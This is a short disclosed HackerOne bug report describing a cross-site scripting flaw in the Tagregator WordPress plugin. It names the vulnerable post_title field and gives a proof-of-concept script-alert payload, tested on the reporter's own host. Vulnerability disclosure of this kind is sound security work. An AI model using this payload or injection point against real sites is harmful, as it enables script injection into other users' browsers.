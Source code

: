 # XSS in Tagregator plugin

## Report Details
- **Report ID**: 35036
- **URL**: https://hackerone.com/reports/35036
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2014-11-09T01:08:39.052Z
- **Disclosed**: 2016-08-18T01:19:00.020Z

## Reporter
- **Username**: dia2diab
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: iandunn-projects

## Vulnerability Information
This is a XSS in Tagregator plugin that affect on wordpress users
i'm making my test on alwaysdata host
target: http://diaa.alwaysdata.net/wordpress/wp-admin/post-new.php?post_type=tggr-flickr
infected input: post_title
payload: <script>alert("a7a");</script>
then get the Permalink that is generated for public user: http://diaa.alwaysdata.net/wordpress/?tggr-tweets=alerta7a
alerted !!!
 
tell me if you wanna any information
thank you 



## Attachments
No attachments
